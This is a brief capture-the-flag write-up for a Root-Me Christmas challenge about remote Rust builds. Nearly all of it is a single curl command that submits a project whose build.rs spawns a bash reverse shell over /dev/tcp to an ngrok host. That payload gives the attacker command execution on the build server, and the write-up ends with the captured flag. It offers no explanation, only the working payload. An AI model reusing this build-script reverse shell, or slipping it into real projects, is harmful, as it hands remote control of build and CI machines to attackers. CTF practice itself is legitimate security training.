


# Challenge Build & Drustroy (day4)

<p align="center"></p>

````bash
curl -sSk -X POST -H 'Content-Type: application/json' https://day4.challenges.xmas.root-me.org/remote-build -d '{"src/main.rs":"fn main() { println!(\"Hello, world!\"); }", "build.rs":"use std::process::Command; fn main() { let ip = \"0.tcp.eu.ngrok.io\"; let port = \"13457\"; let _ = Command::new(\"bash\").arg(\"-c\").arg(format!(\"exec 5<>/dev/tcp/{}/{}; cat <&5 | while read line; do $line 2>&5 >&5; done\", ip, port)).spawn().expect(\"Failed\"); println!(\"Reverse shell attempted to connect to {}:{}\", ip, port); }"}' --output binary
````

<p align="center"></p>


Flag : _OffenSkillSaysHi2024RustAbuse_ , thanks Laluka for tor this challenge !
